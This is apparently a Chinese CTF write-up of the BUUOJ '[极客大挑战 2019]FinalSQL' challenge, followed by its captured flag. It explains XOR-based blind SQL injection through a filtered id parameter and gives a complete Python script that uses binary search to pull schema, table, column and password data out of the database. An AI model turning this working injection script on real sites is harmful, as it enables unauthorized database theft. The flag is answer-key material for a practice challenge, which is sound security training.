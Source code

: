 # [极客大挑战 2019]FinalSQL

[题目地址](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]FinalSQL)

网站给了登录框和几个可以点的选项。登录框试了一下，直接把单引号过滤了，简单粗暴。几个可点的选项自然也没有东西，不过第五个提示了url的id参数有问题。

- You are too naive!How can I give it to you? So,why not take a look at the sixth one?But where is it?

把id改为6就能看见别的东西了，肯定不会是flag，都final了怎么可能这么简单。在id处尝试注入，然而同样也把单引号过滤了。常规直接爆值的肯定是不行了，最重要的闭合符号没了。看看[wp](https://blog.csdn.net/weixin_44214568/article/details/124047431)，原来是异或盲注，之前没见过的类型。

- http://41ec872a-4766-4225-820f-ceab0bfb17ee.node4.buuoj.cn:81/search.php?id=1^1

此时页面会返回错误信息，因为1异或1是0，这个网站遇见1-6 id之外的就会报错。`1^0`就正常了，结果是1，返回1号页面的东西。借鉴布尔盲注的思路，让要爆的值以布尔形式返回，然后异或两个1，比如`1^result^1`。如果result是1，回显正常，代表当前测试数据正确；如果不正常就代表不正确。借用大佬的脚本，即使用了二分法也跑了好一会。

```python
import requests
url = "http://41ec872a-4766-4225-820f-ceab0bfb17ee.node4.buuoj.cn:81/search.php"
flag = ''
def payload(i, j):
    # 数据库名字
    #sql = "1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1"%(i,j)
    # 表名
    # sql = "1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)^1"%(i,j)
    # 列名
    # sql = "1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1"%(i,j)
    # 查询flag
    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, j)
    data = {"id": sql}
    r = requests.get(url, params=data) #当发送post时，使用requests.post(url,data=data)
    # print (r.url)
    if "Click" in r.text:
       res = 1
    else:
       res = 0
    return res
def exp():
    global flag
    for i in range(1, 10000):
        low = 31
        high = 127
        while low <= high:
              mid = (low + high) // 2
              res = payload(i, mid)
              if res:
                 low = mid + 1
              else:
                 high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
           break
        flag += chr(f)
exp()
print('flag=', flag)
```

## Flag
> flag{de2fc56e-c92f-4bf4-84ee-880087f1fab9}